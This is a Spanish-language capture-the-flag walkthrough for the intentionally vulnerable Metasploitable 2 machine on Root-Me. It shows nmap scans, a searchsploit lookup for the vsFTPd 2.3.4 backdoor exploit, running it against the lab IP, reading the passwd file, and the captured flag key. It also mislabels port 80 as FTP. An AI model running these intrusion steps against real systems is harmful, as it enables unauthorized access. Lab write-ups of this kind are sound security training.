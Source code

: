 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F70000&width=500&height=70&lines=Metasploitable_2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/metasploitable-2,29/

Sourceforge: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=en

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172515652-41a49316-c195-462f-a88b-bfba74051bf2.png)

Puertos abiertos: [21,22,23,25,53,80,110,139,445,3306,5900]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,23,25,53,80,110,139,445,3306,5900 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172518304-45323ab6-0e48-425d-9bf4-5e3689b86200.png)

Objetivo: Puerto 80 -> Servicio FTP -> Versión -> vsFTPd 2.3.4

- *Paso 3:* Identificación de exploit y descarga. 
```
searchsploit vsFTPd 2.3.4
```
![3](https://user-images.githubusercontent.com/75953873/172518879-12b95d54-5dac-4f0d-918e-96860c1c5eed.png)

`Dato:` cada exploit está enumerado y es irrepetible.

Exploit: 49757

Descargar exploit:
```
searchsploit -m 49757
```
![4](https://user-images.githubusercontent.com/75953873/172519207-132d9579-e008-4980-941a-44925d69d383.png)

- *Paso 5:* Obtener acceso. 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![5](https://user-images.githubusercontent.com/75953873/172519517-52e00c2d-277e-43d7-838e-796e99e2ed34.png)

**IP:** 212.129.29.186

Ejecución del exploit:
```
python3 49757.py 212.129.29.186
```
![6](https://user-images.githubusercontent.com/75953873/172519805-0a9e2b66-d85c-4b2a-a5d8-8801fea887c1.png)

Localizar fichero `passwd` y validar flag:
```
cat passwd
```
![7](https://user-images.githubusercontent.com/75953873/172520170-d1cc17c5-5124-4c2f-ba76-10835fc58344.png)

**Key:** bb43e7cf2385d2c38fd5a232b435e59d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)

